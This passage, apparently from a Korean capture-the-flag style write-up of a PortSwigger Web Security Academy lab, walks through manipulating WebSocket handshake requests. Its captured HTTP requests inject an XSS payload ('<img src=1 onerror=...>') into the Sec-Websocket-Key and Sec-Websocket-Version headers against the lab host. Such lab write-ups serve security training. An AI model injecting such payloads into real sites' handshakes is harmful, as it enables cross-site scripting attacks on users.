 서버는 다음과 같은 응답을 반환한다. 
```http
HTTP/1.1 101 Switching Protocol
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Accept: aZemjMqaEEqsVQfQhcXSz3yv7WA=
Content-Length: 0


```

## WebSocket 핸드셰이크 요청에서 XSS공격 가능한 포인트 찾기 
일단 가장 먼저 그럴듯해보이는 부분은 `Sec-Websocket-Key`헤더다. HTML페이지를 리로딩하면 다시 websocket커넥션 요청이 전송된다. 이 요청을 캡쳐해서 값이 변조해서 테스트해본다. 

```http
GET /chat HTTP/2
Host: 0ad500380358cb988208ddd0001e00a2.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0ad500380358cb988208ddd0001e00a2.web-security-academy.net
Sec-Websocket-Version: 13
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Cookie: session=wJtI9TEfcLzJQcX01CYLY0dYF6VpU8W2
Sec-Websocket-Key: tPPVs1JZs/AEcPCnDRIbfA==<img src=1 onerror='alert(1)'>


```

400 Bad Request 응답이 돌아왔다. 
```http
HTTP/1.1 400 Bad Request
Content-Type: application/json; charset=utf-8
Connection: close
Content-Length: 16

"Protocol error"
```

다음은 `Sec-Websocket-Version`헤더를 테스트해본다. 
```http
GET /academyLabHeader HTTP/2
Host: 0ad500380358cb988208ddd0001e00a2.web-security-academy.net
Connection: Upgrade
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Upgrade: websocket
Origin: https://0ad500380358cb988208ddd0001e00a2.web-security-academy.net
Sec-Websocket-Version: 13<img src=1 onerror='alert(1)'>
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,ja;q=0.8,ko;q=0.7
Cookie: session=wJtI9TEfcLzJQcX01CYLY0dYF6VpU8W2
Sec-Websocket-Key: /bUTLhvY2L2S2gQYr1hwxw==

```

